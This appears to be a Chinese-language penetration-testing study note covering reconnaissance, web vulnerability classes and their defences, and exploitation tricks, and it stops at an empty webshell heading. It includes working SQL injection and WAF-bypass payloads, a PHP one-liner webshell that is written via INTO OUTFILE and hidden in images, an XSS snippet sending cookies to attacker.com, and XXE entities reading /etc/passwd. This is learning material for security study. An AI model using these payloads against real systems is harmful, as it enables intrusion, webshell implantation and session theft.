

# 信息收集

渗透测试和渗透攻击的第一步是收集目标信息，俗称踩点。信息收集得越全面，就越容易找到防御薄弱点。最重要的信息是**域名与IP地址**、**端口与服务**

例如，假设搜集一家企业的网络资产，搜集过程如下：



这个例子中，首先找到`service.example.com`、`passport.example.com`等属于该公司的域名、IP地址。每个域名和IP地址对应该公司的一台主机，或者多台主机，又或是该公司租用的云服务器

然后，探测每个地址提供的服务。在`service.example.com`，发现22端口开放，提供SSH服务；443端口开放，提供HTTP服务，并识别它使用的服务器、开发语言、后端数据库、CMS等信息（注意，一个端口可能提供多个服务，Web端口尤其常见，比如在`https://service.example.com/home`和`https://service.example.com/bbs`部署了两套独立系统）；其他各地址也同理探测

最后，梳理资产，剔除不属于目标的资产，并筛选出高价值资产。至此，信息收集暂告一段落。信息搜集的作用有两方面

1. **找到攻击点位**：每个服务都是一个攻击目标。首先可以找服务有没有N-day漏洞，然后可以从开放的服务寻找高发漏洞（比如，登录界面可能有弱口令，api可能有越权、信息泄露，上传页面可能有文件上传漏洞）
2. **提高攻击效率**：知道服务用了什么组件，就可以专注尝试该组件的漏洞。例如，服务器用PHP开发，就不可能存在Java反序列化漏洞；后端是MySQL数据库，就不需要测试PostgreSQL的注入语句

## 域名、IP地址

### 原理

- **相似性**：同一个机构的网络资产很可能有共同特征。通过公开渠道找到一个资产，就能找到许多相似的网站
  - **ICP备案**：我国网站均需要备案，可通过ICP备案信息查询机构注册的域名。这也是搜集的“起点”。whois查询可以查到域名注册者信息，也有相似效果
  - **子域名**：组织通常以主域名为中心，扩展多个功能性子域名（如`api.example.com`、`admin.example.com`）。可通过DNS记录、爆破等方式寻找子域名
  - **C段、旁站**：一个组织常将多个服务部署在同一网段（如`/24`网段，俗称C段）；部署在云服务器上的网站，有可能多个站点共享一个IP地址，称旁站
  - **特征指纹**：同一机构的资产可能具有相同图标（`favicon.ico`），相同关键字（如公司名、企业邮箱地址）
  - **SSL证书**：可分析SSL证书的Subject Alternative Name（SAN）字段。浏览器地址栏左边的锁状图标可以看网站证书，也可用证书透明度日志（crt.sh）查询
  - **相似域名**：企业可能注册多个拼写相近、品牌相关的域名，如百度除了`baidu.com`外还注册了`baidu.com.cn`（但相近域名大多未投入使用，价值不高）
  
- **关联性**：同一机构的网络资产之间即使不相似，也很可能有关联
  - **页面链接**：站点内页面可能包含其他资产的超链接，可以收集页面中的超链接并分析其指向的域名和路径
  - **Javascript**：前端JS可能包含后端接口地址、开发域名、第三方服务或调试路径
  - **社会学关联**：子公司的网站、乙方的网站（例如目标组织委托乙方设计办公系统，系统部署在乙方的服务器上，但系统内的数据都是目标组织的）
- **小程序、APP**

### 工具

- **域名**
  - Whois查询：[爱站网](https://whois.aizhan.com/)、[站长之家](https://whois.chinaz.com/)
  - ICP备案查询：[工信部备ICP案管理系统](https://beian.miit.gov.cn/)、天眼查、[小蓝本](https://sou.xiaolanben.com/)
  - 子域名爆破
- **网络空间测绘工具**：可以搜索目标的子域名、ICP备案、开放端口、指纹等网络资产信息
  - 国内：[鹰图](https://hunter.qianxin.com/)、[FOFA](https://fofa.info/)、[钟馗之眼](https://www.zoomeye.org/)、[Quake](https://quake.360.net/quake/#/index)、[微步](https://x.threatbook.cn)、[零零信安](https://0.zone/)
  - 国外：[Shodan](https://www.shodan.io/)（[语法参考](https://help.shodan.io/the-basics/search-query-fundamentals)）、[VirusTotal](https://www.virustotal.com/gui/home/upload)
- **搜索引擎**：搜索引擎可以检索目标网站公开的页面，其中除了常规页面外，还有机会找到配置文件、后台登录页面等。也有机会找到各种社会学信息，如员工的邮箱、子公司等。常用关键字：`site:域名 intitle:标题 intext:网页内容 filetype:文件后缀 inurl:链接`；更多用法可参考[Google Hacking Database](https://www.exploit-db.com/google-hacking-database)
- **综合搜索工具**：[ARL](https://github.com/Aabyss-Team/ARL)、[OneForAll](https://github.com/shmilylty/OneForAll)
- **其他**
  - **前端代码分析**：`JSFinder`脚本、`FindSomething`插件分析网页HTML、JavaScript源代码寻找信息

### CDN绕过

若网站有多个IP地址，则网站很可能使用了CDN（Content Distribution Network）。通常，CDN节点开放的端口少、防护措施强，因此要尽量绕过CDN节点寻找真实IP地址

- **相关域名**：相关站点经常在同一IP段，可尝试其他资产的C段
- **服务器发起请求**：服务器发起的请求不经过CDN，如服务器发出的邮件、SSRF漏洞
- **国外地址请求**：一般不会为海外地址部署CDN，从国外访问到的可能是真实地址
- **DNS历史记录**：如[ip138](https://site.ip138.com/)，找启用CDN之前的ip
- **辅助信息推测**：通过辅助信息推测可能的IP段。例如，根据公司业务推测服务器可能在某市的IDC机房，则可以找该市的IDC机房IP段

找到疑似真实IP后，首先可以多方法互相验证；然后可以尝试进行Host碰撞，能正常访问就很可能是真实IP地址了（也有可能找到CDN节点或者负载均衡节点，因此很难百分之百确认）

## 端口、服务

找到真实IP地址后，就可以探测哪些端口开放、各端口运行什么服务

1. 测绘工具
2. 端口扫描工具：nmap，masscan，goby，tscan，fscan等
3. 路径扫描工具：dirsearch等

访问各端口，通过服务器返回数据的特征识别服务器使用了哪些应用程序（服务器软件、中间件、CMS等），例如服务器返回Apache的默认404页面就可以推断服务器使用Apache；部分资源路径包含`wp-content`，可以推断服务器使用Word Press。这种方法叫做**指纹识别**。常用指纹识别工具有

- wappalyzer（浏览器插件），御剑，[webanalyzer](https://github.com/webanalyzer/rules)，[whatweb](https://whatweb.net/)，tidefinger，ehole等

## 辅助信息

网络上很可能有许多不在目标服务器上，却能帮助进行渗透的信息，比如员工上传到百度文库的内部资料、微信公众号文章透露了人员组成等。这类信息存在与否、有多大作用都是未知数，但不能完全忽略这些信息

- 文档：百度文库、原创力文档、蚂蚁文库、道客巴巴、360文库、人人文库
- 网盘：大圣盘
- 其他：抖音、快手、小红书、微信等

识别服务器的防护手段也可以帮助后续测试。WAF识别与绕过：[Awesome-WAF](https://github.com/0xInfection/Awesome-WAF)

以上方法如果找到了数量庞大的资产（这是非常有可能的！），就要从中筛选出“值得挖”的资产。价值判断取决于渗透的目的，但一般来说，业务越重要、功能越多，越有可能挖出高价值的漏洞

# Web漏洞基础

## SQL注入

### 寻找注入点

寻找注入点可以用**时间盲注**，因为它注入成功时必定能看到网站响应时间变化。其他注入语句即使注入成功了，也可能看不到回显

当常见payload都试过之后，要**果断放弃**。SQL注入的大前提是服务器将攻击者控制的字符串直接拼接到SQL语句中。若后端代码使用了参数化查询，或者对用户输入强验证，就不存在SQL注入的可能性

不要忘记，所有和数据库有关的地方都可能出现注入，包括但不限于GET参数、POST参数、HTTP头、URL。只要有迹象表明服务器把这些参数存起来了，或者用这些参数查询东西，就可以尝试去注

### Union注入

在`WHERE`语句后拼接`UNION`等语句，查出“额外”的东西

```sql
SELECT * FROM users WHERE id='1' ORDER BY 4;          -- 判断数据列数
SELECT * FROM users WHERE id='1' UNION SELECT 1,2,3;  -- UNION查询
```

### 盲注

web应用进行数据库操作之后可能不会回显，比如只显示“查询成功”或“查询失败”，甚至连成功与否都不告诉用户。这种情况下通过注入获取信息的方法就叫盲注

#### 布尔盲注

1. 找注入点
2. 构造条件。这个条件的真假影响回显。例如若payload`' or '1'='1`回显“查询成功”，`' or '1'='2`回显“查询失败”，这个payload就是合格的条件。HTTP头，如`Set-Cookie`、`Location`、状态码也有可能充当回显
3. 将条件替换成注入的数据，例如下面的语句。替换参数，不断尝试直到爆破出整条数据

```sql
SELECT * FROM users WHERE id='' or length(database()) < 16;
SELECT * FROM users WHERE id='' or substr(database(), 1, 1) = 'a';
```

#### 延时盲注

若完全没有回显，可以利用延时判断条件真假，若查询成功则会延迟一段时间再响应（注意：sleep函数找到多少条结果就会延迟多少次，比如`sleep(0.1)`搜索到20条结果就会延迟$0.1 \times 20 = 2$秒，可以用这个方法判断表的行数）

```sql
SELECT name FROM users WHERE id='' UNION SELECT IF((1=1), sleep(5), 0);
SELECT name FROM users WHERE id='' UNION SELECT CASE WHEN (1=1) THEN sleep(5) ELSE 0 END;
SELECT name FROM users WHERE id='' UNION SELECT sleep(5*(1=1));
```

WAF可能过滤`IF`等关键字，按需灵活选取。`sleep`也有以下替代方法（**以下方法都要注意不要引起DOS**）：

```sql
SELECT benchmark(1000000, sha1('a'));    # 重复执行sha实现延时
SELECT count(*) FROM users A, users B;   # 笛卡尔积延时
SELECT rpad('a',4999999,'a') RLIKE concat(repeat('(a.*)+',30),'b');  # 正则状态机复杂匹配
```

#### 报错盲注

若服务器没有回显，可以尝试构造SQL ERROR。查询成功、查询无结果、SQL报错可能是三套处理逻辑，只要报错的结果和另外两个有区别就能获得回显

```sql
SELECT exp(709 + (1=1));
SELECT cot(1 - (1=1));
SELECT pow(1 + (1=1), 99999);
```

### 其他注入手段

#### 文件操作

以下代码可以读写文件，不过仅限`SELECT @secure_file_priv;`指定的目录

```sql
SELECT '<?php @eval($_POST[aaa]);?>' INTO OUTFILE 'shell.php'
SELECT load_file('backup.bak')
```

#### 报错注入

如果服务器显示错误信息，可构造查询语句使数据直接显示在错误信息中。例如，向MySQL 5.1以上版本的`updatexml(XML_document, XPath, new_value)`和`extractvalue(XML_document, XPath)`函数传递不合法XPath，报错信息中包含XPath的值。下面例子用`~user_name`作为XPath，XPath不能包含`~`，因此必定报错，报错信息中包含了用户名

```sql
SELECT updatexml(1, concat(0x7e, (select user())), 2)
```

#### 堆叠注入

一次注入多条语句。不过数据库API不一定支持，而且一般看不到回显，很难确认操作是否成功

```sql
SELECT * FROM users WHERE id=1; drop users();
```

#### 二次注入

例如，注册用户名`admin' -- `，注册时没有发生注入；但是当数据库读取用户名做进一步操作时，开发者有可能误以为从数据库取得的数据是干净的，没有使用参数化查询，因此引发注入。比如该用户修改密码的SQL语句可能如下，实际上修改了admin用户的密码

```sql
UPDATE users SET pwd='pswd' WHERE name='admin' -- '
```

### 防护

- **参数化查询**：将语句和数据分离，避免将用户输入拼接到SQL语句
- **输入验证**：检查参数内容，只接收符合格式的数据，比如只允许整数，只允许年月日
- **过滤**：检测特定关键字，如`union`，`or 1=1`。检测总是不全面的，前两个方法才是真正安全

## 文件上传

网站若未对用户上传的文件类型、内容或执行权限做严格限制，攻击者可以上传恶意文件（如 WebShell、病毒等）进行攻击

### 防护

文件上传漏洞的防护包含两方面，其一是检测恶意文件

- **简单校验**：利用HTML表单、javascript、MIME类型校验
- **文件名校验**：检测扩展名并进行黑名单 / 白名单过滤
- **文件头**：读取文件前几个字节判断文件格式（俗称Magic Number），如JPEG文件应以`FF D8 FF`开头，PNG为`89 50 4E 47`，GIF为`GIF89a`
- **内容过滤**：用防火墙，杀毒软件等扫描文件内容
- **内容处理**：进行图像转码后再保存

其二，要防止文件执行。恶意文件类型多样，不可能完全检测出来，但只要上传的文件不被执行，攻击者上传的木马就无法造成危害

- **禁止解析**：上传目录关闭脚本解析功能。或者放在OSS（Ojbect Storage Service，对象存储服务）

- **禁止直接访问**：不允许用户直接访问文件，必须通过特定接口加载。且下载时也要验证用户权限

- **更改文件名**：把文件名改成难以猜测的形式，如随机字符串，后缀也改成合法后缀，避免攻击者访问该文件

### 绕过

感觉文件上传的绕过技术大部分都不实用，因此暂时放在CTF笔记中

### 图片木马

包含恶意代码的图片俗称图片马。恶意代码插入于图片文件结束标记之后，或EXIF元数据，不影响图片显示；但将图片马作为代码执行时，比如用文件包含漏洞，解释器解析执行`<?php ?>`或`<% %>`中的代码。和图种的原理类似

1. 随便准备一张图片`a.jpg`
2. 构造恶意代码。通常用“一句话木马”，即非常简短的木马，其隐蔽性较好。后续可用它作为跳板上传大木马
   - PHP：`<?php @eval($_GET['cmd']); ?>`
   - aspx：`<%@ Page Language="Jscript"%>`
   - 这么直白的写法肯定会被杀毒软件发现，需要结合代码混淆实现免杀。可参考[Webshell集合](https://github.com/tennc/webshell)
3. 将图片和代码拼接到一起。或者用Photoshop、PIL等工具将木马写入图片EXIF

```shell
cat a.jpg shell.php > shell.jpg           # Linux
copy a.jpg /b + shell.php /a > shell.jpg  # Windows
```

## 跨站脚本（XSS）

跨站脚本（Cross-Site Scripting，简称XSS。第一个字母改为X以避免和样式层叠表CSS冲突）是可以执行任意Javascript代码的漏洞

网站显示内容可控（比如，论坛发帖）时，攻击者构造恶意载荷，让浏览器将将输入当作Javascript代码解析执行从而执行任意Javascript代码。例如下面的文本若被当作javascript执行，将在用户不知情之下将Cookie发送到攻击者服务器，攻击者可以用窃取来的Cookie进行会话劫持攻击

```html
<script>
    var img = new Image();
    img.src = "http://attacker.com/steal?cookie=" + encodeURIComponent(document.cookie);
</script>
```

XSS还可以在用户不知情之下进行敏感操作，或是通过DOM控制网页进行钓鱼攻击。XSS只能影响到用户，无法直接作用于服务器。

- **反射型**：载荷写在URL内，如`example.com?q=<script>alert(1);</script>`，打开此链接便受到攻击。易受攻击的功能有搜索等
- **存储型**：载荷存储在服务器中，打开对应页面便受到攻击。易受攻击的功能有评论、文章、用户个人资料等
- **DOM型**：载荷写在URL的`#`号后面，如`example.com/#<script>alert(1);</alert>`，前端动态加载页面时就会受到攻击。DOM型XSS在浏览器前端完成，恶意代码没有发送到服务器，因此无法拦截。易受攻击的功能有单页应用、前端渲染搜索等
- **其他**：载荷存储在其他地方，比如Cookie、`LocalStorage`。也叫Self-XSS，需要与其他漏洞配合构造攻击链才有危害性

### 防护

- **转义**：将特殊符号都转义为HTML实体
- **输入校验**：只允许符合格式的数据
- **`HttpOnly`**、**CSP**：设置Cookie的`HttpOnly`标志、设置内容安全策略（CSP）头，攻击者即使实现XSS也更难实施恶意操作

## 跨站请求伪造（CSRF）

跨站请求伪造（Cross-Site Requet Forgery，CSRF）是利用受害者浏览器存储的Cookie，以受害者身份执行操作的漏洞

若某网站`vuln-to-csrf.com`关键功能的数据包容易伪造，攻击者可以搭建一个恶意网站`evil.net`，受害者访问`evil.net`时它会悄悄伪造数据包发给`vuln-to-csrf.com`。若受害者浏览器中保存了`vuln-to-csrf.com`网站的Cookie，请求中自动包含Cookie，就以受害者账户进行了操作

若网站增、删、改操作的数据包可伪造，未设置Cookie的SameSite属性，删除`Referer`、`Token`等请求头仍能正常操作，则存在CSRF漏洞

### 防护

- **验证Referer**：重要功能的请求必须是从自己网站发起，而非第三方恶意网站
- **CSRF Token**：正常会话时服务器生成随机Token并发给客户端，客户端进行敏感操作需要附带Token。攻击者若无法预测CSRF Token就无法伪造请求
- **SameSite属性**：设置Cookie的SameSite属性为Lax或Strict，避免跨站请求携带Cookie。不过对用户不方便，可能影响一般业务
- **用户操作确认**：要求输入验证码 / 输入密码等验证

一般强度防护使用CSRF Token；高强度防护使用CSRF Token加上SameSite属性；非常重要的操作再加上用户确认

### 绕过

- 绕过`Referer`验证
  - 空`Referer`：在恶意网页的HTML头部中加入meta标签`<meta name="referrer" content="never">`；GET请求可用JS跳转`window.location = 'vuln-to-csrf.com'`
  - 匹配漏洞：子域名、域名前增加字符、路径中包含域名，如`sub.vuln-to-csrf.com`，`aavuln-to-csrf.com`，`evil.net/vuln-to-csrf.com/`
- 绕过CSRF Token
  - 利用逻辑错误：可能请求方法换成GET就跳过验证逻辑；可能把Token删了就跳过验证逻辑
  - Token和Cookie没有强绑定：Token可能没绑定到用户，也可能绑定到非业务Cookie上。这种情况可以访问网站获取CSRF Cookie & Token，写进受害者浏览器
- 绕过SameSite
  - `SameSite=Lax`的GET请求，可用`document.location = 'vuln-to-csrf.com'`跳转绕过
  - 利用目标站点的重定向页面，或是XSS漏洞（注意，子域名也是SameSite）


## 远程代码执行（RCE）

远程代码执行（Remote Code Execution，RCE），也叫任意代码执行（Artibrary Code Execution，ACE）。网站使用`eval`等函数时，若用户可控制参数，则可以执行任意代码

过滤绕过：https://wiki.wgpsec.org/knowledge/ctf/exec.html

使用其他漏洞也有可能实现任意代码执行，比如用文件上传漏洞传一个WebShell，自然能执行任意代码了。但这种间接实现RCE的通常不叫作RCE漏洞

## 文件包含

开发者常通过函数（如PHP的`include`、`require`）将其他文件的内容引入当前脚本，例如加载配置文件、复用代码模块。当**用户输入用于文件路径**且未做严格过滤时，攻击者可以篡改路径，包含非预期的文件（如系统文件、远程脚本）

- **本地文件包含**（Local File Inclusion，LFI）：包含服务器本地文件，可用于窃取敏感信息，或配合文件上传漏洞执行任意代码
- **远程文件包含**（Remote File Inclusion，RFI）：包含远程服务器文件（需要服务器开启`allow_url_include`配置），直接执行恶意代码

**LFI利用方式**

- 文件上传漏洞
- PHP封装协议
- 日志文件：如果服务器日志保存UA等信息，甚至可以将webshell注入到日志，再包含日志文件
- 临时文件：POST方法上传`multipart/form-data`，PHP会将文件存为临时文件，位于`php.ini`指定的`upload_tmp_dir`，默认为`/tmp`，文件名是`php + 4或6位随机字母/数字`，如`/tmp/phpY1WgtV`
  - 在一次请求上传并利用临时文件：需要能够猜到临时文件名，比如使用通配符调用文件。CTF中有可能，实际业务中没有可行性
  - 让PHP崩溃阻止删除临时文件：难度较大，取决于PHP版本

## 逻辑漏洞

逻辑漏洞指业务逻辑的漏洞，它不会直接引起安全问题，但往往可以成为攻击切入口

### 越权访问

**绕过访问控制逻辑**，进行未授权的操作。可以细分为**水平越权**，使用A账号获取、操作B账号的数据；**垂直越权**，使用低权限账号进行高权限操作

发现数据包中传输用户信息（用户编号、用户组编号等）时，可以尝试修改这个值进行水平越权。如果知道高权限用户的数据包结构，还可以尝试垂直越权

### 支付漏洞

绕过业务逻辑，影响业务数据。如修改优惠券金额、预测验证码、覆盖注册等

### 敏感信息泄露

包括但不限于：用户名、口令、个人数据（如姓名，住址，电话等）。代码、配置、日志、备份中都可能包含敏感信息

## 反序列化

序列化和反序列化就是将对象转换为文本，以及将文本转换回对象的功能，它常用于对象的保存和传输。若Web应用未执行严格过滤，可以构造恶意数据，在反序列化过程中执行危险操作

解析认证token、Session，传输json和XML、使用RMI协议时都可能有反序列化漏洞

## XML外部实体（XXE）

XML外部实体（XML eXternal Entity）可以引用外部数据，例如文件系统中的文件、互联网文件等。若XML解析器允许文档类型定义[DTD](./frontend.md#文档类型定义)，可能在解析XML对象时引发LFI、RFI、SSRF等漏洞

可以上传XML的地方（如，使用XML的api、上传svg文件、上传Excel文件）都可能出现XXE漏洞

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE ANY [
    <!ENTITY foo SYSTEM "file:///etc/passwd">
    <!ENTITY % file SYSTEM "file:///var/www/html/upload/evil.dtd">
]>
<!-- 引入外部实体foo，并从文件导入DTD（文件中可以包含恶意实体） -->
<x>&foo;</x>
```

若服务器配置允许，上面例子里的文件路径可以换成http协议，php封装协议，甚至`expect://<指令>`

## 服务器端请求伪造（SSRF）

服务器端请求伪造（Server-Side Request Forgery，SSRF）是攻击者利用服务器发出请求，访问本不该能访问的信息（比如内网）的安全漏洞。容易出现SSRF漏洞的应用有通过URL上传图片、在线翻译等

# Web漏洞利用

## SQL注入

参考资料：[SQL注入相关知识整理](https://www.geekby.site/2021/01/sql%E6%B3%A8%E5%85%A5%E7%9B%B8%E5%85%B3%E7%9F%A5%E8%AF%86%E6%95%B4%E7%90%86/)、[SQL注入漏洞基本原理](https://wiki.wgpsec.org/knowledge/web/sql_injection.html)、[数据库检测](https://websec.readthedocs.io/zh/latest/vuln/sql/dbident.html)、[SQL注入绕过速查表](https://github.com/BaizeSec/bylibrary/blob/main/docs/%E9%80%9F%E6%9F%A5%E8%A1%A8/sql%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87%E9%80%9F%E6%9F%A5%E8%A1%A8.md)、[SQL注入参考文章](https://websec.readthedocs.io/zh/latest/vuln/sql/ref.html#tricks)

### 绕过技巧

WAF等防护系统会采用特征识别危险请求。防护系统不能影响正常业务，识别的关键字肯定是有限的

**一般语句**

```sql
-- 过滤空格：用行内注释、括号、浮点数、反引号括起表名列名等代替
SELECT name FROM users WHERE id=1e0union(select`pw`from`users`where(id=1));

-- 过滤引号：字符串编码(ord, ascii, char, hex, unhex等)或者十六进制数
SELECT name=0x61646d696e;     -- 'admin' = 0x6169...
SELECT name like char(24869); -- 'a%' = 24869，注意超出int32会截断

-- 过滤运算符：函数式编程。下面例子判断database()第一个字符码值是否大于64
SELECT * FROM users WHERE id=-1||least(substr(database(),1,1),'a')like'a';

-- 过滤逗号：Join查询；部分函数内逗号可用关键字代替
SELECT id, name FROM users WHERE id="0"union select * from ((select 1)A join (select 2)B);
SELECT substr('abc' from 1 for 1), trim(leading 'a' from 'abc');
```

**布尔盲注**：从子句或者变量中提取出1比特的信息

```mysql
-- 字符串截取
SELECT substr('a', 1, 1);
-- 同义函数：substring, mid, left, right
-- 类似效果：regexp, rlike, trim, insert, like

-- 比较
SELECT 1 between 1 and 1;
SELECT 'a' in ('a');
SELECT ascii('a')-97;

-- 分支
SELECT if(1=1, 'hello', 'bye'); -- 类似三目运算符
SELECT nullif('a', 'b');        -- 若两个参数相同则返回其值，否则返回NULL。同名函数：ifnull
SELECT decode(1, 1, 'a', 'b');  -- 若第一个参数和第二个参数相等，返回a，否则返回b。oracle原生
SELECT coalesce(NULL, 1);       -- 返回第一个非NULL值
```

**延时盲注**

```sql
SELECT sleep(1);
SELECT BENCHMARK(10000000, sha(1));   # 重复执行sha(1)
SELECT count(*) from tableA, tableB;  # 利用笛卡尔积
select * from wp_user_ where id =1 and IF(1,concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b',0) # 利用复杂正则
```

**报错注入**

参考：https://www.cnblogs.com/feizianquan/p/10794681.html

```sql
SELECT updatexml(1, concat(0x7e, (select user())), 2);
SELECT extractvalue(1, concat(0x7e, (select user())));
SELECT count(*),concat('payload', floor(rand()*2))x from member group by x
```

### 元数据

#### MySQL

参考：https://www.cnblogs.com/20175211lyz/p/12358725.html

版本`version()`，用户名`user()`，数据库名`database()`，操作系统`@@version_compile_os`

以下数据库包含了数据库名、表名等元信息：

- **`information_schema`**：包含表的定义等元数据的数据库。MySQL 5.0+支持
- **`performance_schema`**：监控数据库管理系统运行状况的数据库。MySQL 5.7+默认启用。此数据库并不存储元数据，但开启采集器（Instrument）和消费者（Consumer）后，其收集的数据涵盖部分元数据
- **`mysql`**：系统核心数据库，包括用户权限等。MySQL 5.6+
- **`sys`**：对`performance_schema`的封装。MySQL 5.7.9+可以从中获取元数据

| 库                   | 表                                    | 字段                         | 备注         |
| -------------------- | ------------------------------------- | ---------------------------- | ------------ |
| `information_schema` | `schemata`                            | `schema_name`                | 数据库名     |
|                      | `tables`                              | `table_name, table_schema`   | 表名         |
|                      | `columns`                             | `column_name, table_name`    | 字段名       |
| `performance_schema` | `table_handlers`                      | `object_name, object_schema` |              |
|                      | `objects_summary_global_by_type`      | `object_name, object_schema` |              |
|                      | `events_statements_summary_by_digest` | `digest_text`                | 查询记录     |
|                      | `file_instances`                      | `file_name`                  | 表的文件路径 |
| `mysql`              | `innodb_index_stats`                  | `database_name`              |              |
|                      | `innodb_table_stats`                  | `database_name, table_name`  |              |
| `sys`                | `innodb_buffer_stats_by_table`        | `object_name, object_schema` |              |
|                      | `x$innodb_buffer_stats_by_table`      | 同上                         |              |
|                      | `schema_table_statistics`             | `table_name, table_schema`   |              |
|                      | `x$schema_table_statistics`           | 同上                         |              |
|                      | `io_global_by_file_by_latency`        | `file`                       | 数据记录等   |
|                      | `statement_analysis`                  | `query`                      | 查询记录     |

#### Oracle

```sql
SELECT banner FROM v$version;
SELECT user FROM DUAL;
SELECT table_name FROM user_tables;
```

#### MSSQL

`sysobjects`

```sql
SELECT system_user, @@servername, @@version;
WAITFOR DELAY '0:0:5';
```

#### PostgreSQL

```sql
SELECT current_database(), current_user;
SELECT * FROM pg_tables;
SELECT pg_sleep(5);
```

#### SQLite

```sql
SELECT sqlite_version()
SELECT `name`, `tbl_name`, `sql` FROM sqlite_master WHERE type='table'; -- 表名和建表语句
```

下列语句可以创建文件，并向其中写入数据

```sql
ATTACH DATABASE '/var/www/html/webshell.php' AS ws;
CREATE TABLE ws.ws_table (content text);
INSERT INTO ws.ws_table (content) VALUES ('<?php phpinfo(); ?>');
```

### 其他技巧

#### 特殊注入点

**Order By子句**：参考https://www.cnblogs.com/1ink/p/15107674.html

1. 参数为数字、列名：按照指定的列排序
2. 若参数为表达式：计算该表达式，然后按照表达式排序（比如`CHAR_LENGTH(username)`，根据名字长度排序）
3. 注意，如果是值固定的表达式，比如`sort=2-1`或者`sort='id'`，并不会排序

```sql
# 盲注。注意if中必须用列名，不能是数字或字符串，否则就会当作值固定的表达式，不进行排序
SELECT * FROM users ORDER BY if(1=1, id, username);
# 不知道列名可以用报错注入或者时间盲注（不过注意，数据库可能优化掉无意义排序）
SELECT * FROM users ORDER BY if(1=1, 1, (select * from information_schema.tables));
SELECT * FROM users ORDER BY if(1=1, 1, sleep(1));
# rand盲注。rand函数种子相同时排序结果相同，可以看下面的返回和order by rand(true)一不一样
SELECT * FROM users ORDER BY rand(1=1);
```

**Limit子句**：只能用数字，不能用表达式。可以尝试拼接Procedure子句、Into File子句

```sql
SELECT * FROM users ORDER BY id LIMIT 1 procedure analyse(updatexml(1, concat(0x7e, database()), 1));
```

#### 无列名注入

```sql
SELECT a FROM (select 1 `a`, 2 `b` union select * from `test_table`)x;

# 无逗号、使用join的版本
SELECT a FROM (
    (select * from (select 1 `a`)p join (select 2 `b`)q where 0)x
    union
    select * from test_table
)x;
```

#### 宽字节注入

对于使用反斜杠（`0x5c`）转义的防护手段，可以在合适位置插入一个字节，让它“吞掉”反斜杠

- 若服务器使用utf-8、数据库使用GBK，注入`%df' or 1=1`，经过魔术引号变为`%df\' or 1=1`；前两个字节`%df%5c`被数据库当成一个gbk字符`運`，反斜杠被”吞掉“。详见[宽字节注入深度讲解](https://cs-cshi.github.io/cybersecurity/%E5%AE%BD%E5%AD%97%E8%8A%82%E6%B3%A8%E5%85%A5%E6%B7%B1%E5%BA%A6%E8%AE%B2%E8%A7%A3/)。第一个字节可以是`0x81~0xa0, 0xa8~0xfd`的任意一个
- 若使用utf-8编码，注入`%c0' or 1=1`，转义后前两字节为`%c0%5c`，被当作一个字符（因为UTF-8是变长编码，用最高几个比特辨认字符使用多少字节，`%c0`前3比特为`0b110`，被当作是一个长2字节的字符，详见[维基百科](https://en.wikipedia.org/wiki/UTF-8#Description)）。一般称作**Overlong Encoding**漏洞

#### 二次编码注入

数据可能多次解码，比如JSON将`\u0065`解码为`e`，XML将`&#101;`解码为`e`，多做一次”不必要“的编码有机会绕过关键字过滤

## 文件上传

暂时记在ctf笔记，验证了有实用性的再移过来此处

## XSS

https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

### 标签

```html
<script>alert();</script>

<a href="javascript:alert();">Click Me</a>
```

```html
<SCRIPT>alert("XSS")</SCRIPT>">  损坏的标签
<svg/onload=alert('XSS')>  用斜杠、`%00`代替标签内空格
```

### 编码

**HTML实体**：

```html
</img>
```

**空白符**：浏览器解析Javascript时无视空白符（注意，不能把一个关键词分成两段），因此可以用空格、换行（`%0A, &#x0A;`）、回车（`%0D`）、tab（`%09`）、注释、括号等符号隔开

```html

<script>((alert))&#x0A;(1);</script>
```

**字符串混淆**：可以隐藏危险字符串，配合`eval`、`window['alert']`等使用

```javascript
String.fromCharCode(88,83,83)
f = 8680439..toString(30);  // f = 'alert'（30进制字符串）
```

### 函数

```javascript
// 同义函数
prompt(1); confirm(1);
// 使用函数名调用。可以结合编码等
window['al'+'ert'](/xss/);
top['alert'](1);
window[8680439..toString(30)][1]
// 其他
[1].find(alert)
```

## 文件包含

可以首先用已知文件、常见文件探测是否存在文件包含：

```
/etc/passwd
C:\boot.ini
C:\WINDOWS\win.ini
```

## XXE

```xml
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>

<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>

<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
```

# 后渗透

## webshell

### php

